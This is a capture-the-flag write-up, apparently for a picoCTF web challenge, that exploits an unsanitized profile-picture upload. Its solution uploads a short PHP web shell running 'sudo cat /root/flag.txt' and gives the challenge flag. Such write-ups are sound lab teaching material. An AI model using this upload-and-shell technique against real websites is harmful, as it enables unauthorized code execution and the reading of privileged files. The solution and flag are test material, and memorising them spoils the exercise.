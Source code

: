 ## Challenge 🧩

A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory.

Author: Prince Niyonshuti N.</br>
Points: 100

Hints:

1. File upload was not sanitized
2. Whenever you get a shell on a remote machine, check sudo -l

## Solution 🕵️‍♂️

Since the uploads are not sanitized, upload simple php shell.

```php
<?php
echo exec("sudo cat /root/flag.txt");
?>
```

![Simple PHP Shell Upload](src/shell_up.PNG)

Visit `/uploads/<file-name>.php`

![Flag](src/n0s4n1ty_flag.PNG)

## Flag 🚩

`picoCTF{wh47_c4n_u_d0_wPHP_xxxxxxxx}`
